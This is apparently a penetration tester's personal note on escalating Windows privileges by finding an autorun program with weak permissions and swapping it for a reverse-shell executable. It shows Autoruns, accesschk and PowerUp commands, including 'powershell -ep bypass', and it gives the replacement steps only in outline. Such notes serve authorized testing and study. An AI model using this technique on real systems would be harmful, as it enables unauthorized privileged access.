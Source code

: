 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Need RDP access

```bash - kali
wget https://download.sysinternals.com/files/Autoruns.zip
```

**Detection**

Transfer over Autoruns.exe from kali to target and run it.

[[4._File Transfers]]

```command prompt - windows
Autoruns.exe
```

In this example, say we found "My Program" entry is pointing to `C:\Program Files\Autorun Program\program.exe`

**Exploitation**

Use accesschk

```command prompt - windows
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```


The output states that "Everyone" user group has "FILE_ALL_ACCESS" permission on the program.exe file.

![[Pasted image 20220207095757.png]]

#### PowrUp.ps1

```command prompt - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

![[Pasted image 20220207100104.png]]

[[1._Reverse Shells (WIN)#MSFVenom]]

Name reverse shell as "program.exe"

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Transfer file to victim.

Replace our malicious program.exe with the original found in `C:\Program Files\Autorun Program`

Now, an elevated privileged user will have to login and click "Run" before we can get our shell:

![[Pasted image 20220207101013.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
